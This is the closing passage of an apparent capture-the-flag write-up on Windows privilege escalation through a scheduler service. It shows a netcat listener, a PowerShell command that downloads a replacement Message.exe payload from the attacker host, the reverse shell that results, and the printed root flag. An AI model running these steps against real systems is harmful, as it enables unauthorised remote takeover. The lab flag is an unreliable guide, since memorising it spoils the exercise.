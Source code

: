 Start a listener.

```bash
root@ip-10-10-75-156:~# nc -lvnp 3333
Listening on [0.0.0.0] (family 0, port 3333)
```

Download the payload on the target machine, be sure to remove the old 'Message.exe' payload.

```bash
C:\Program Files (x86)\SystemScheduler>powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/Message.exe" -OutFile ".\Message.exe"
powershell Invoke-WebRequest -Uri "http://10.10.75.156:8000/Message.exe" -OutFile ".\Message.exe"
```

Wait a while.

```bash
root@ip-10-10-75-156:~# nc -lvnp 3333
Listening on [0.0.0.0] (family 0, port 3333)
Connection from 10.10.108.43 49591 received!
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>
```

Check if you have admin rights by reading the admin flag.

```bash
C:\PROGRA~2\SYSTEM~1>cd c:\users\administrator\desktop
cd c:\users\administrator\desktop

c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 Directory of c:\Users\Administrator\Desktop

08/04/2019  11:49 AM    <DIR>          .
08/04/2019  11:49 AM    <DIR>          ..
08/04/2019  11:51 AM                32 root.txt
08/04/2019  04:36 AM             1,029 System Scheduler.lnk
               2 File(s)          1,061 bytes
               2 Dir(s)  39,056,797,696 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72
```

## Conclusion

That's all for this room, see you in the next one.  
In the meanwhile, happy hacking!
